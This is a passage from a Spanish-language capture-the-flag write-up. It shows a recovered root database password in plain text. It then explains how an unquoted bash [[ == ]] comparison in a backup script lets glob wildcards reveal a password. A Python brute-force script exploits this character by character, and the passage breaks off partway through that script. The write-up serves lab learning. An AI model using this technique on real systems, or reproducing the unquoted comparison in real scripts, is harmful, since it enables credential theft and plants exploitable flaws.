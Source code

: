 Vemos que se ejecuto correctamente y además podemos observar la contraseña en texto plano.

```c
root: kljh12k3jhaskjh12kjh3
```

## Brute Force

Tenemos otra opción para poder obtener la contraseña en texto plano y la verdad me gusta mas, para ello me hice una copia del script con las líneas de comparaciones de credenciales en mi maquina atacante.


```c
 ❯ cat test.sh
#!/bin/bash

DB_USER="root"
DB_PASS=$(/usr/bin/cat password)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo


if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

```c
 ❯ cat password
 password
```

Teniendo este script fue escribir un script que me ejecutara teniendo en cuenta que `$DB_PASS == $USER_PASS` si yo ingreso `p*` debería de obtener `Password confirmed!` como salida y si es otra letra `Password confirmation failed!`, pero esto no nos ayuda mucho y en lo que debemos de prestar mas atención es en el estado de ejecución.

Vemos que luego de imprimir `Password confirmation failed!` tenemos un status `1`, por lo que nos ayudaremos de esto para nuestro script.

```c
#!/usr/bin/env python3

import subprocess

wordlist = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&(),-./:;<=>?@[]^_`{|}~'

password = ""

while True:
    found = False
    for w in wordlist:
        command = f"echo '{password}{w}*' | ./test.sh"
        
        result = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        
        if "Password confirmed!" in result.stdout.decode():
            password += w 
            found = True
            print(f"\r{password}{w}", flush=True, end="")
```
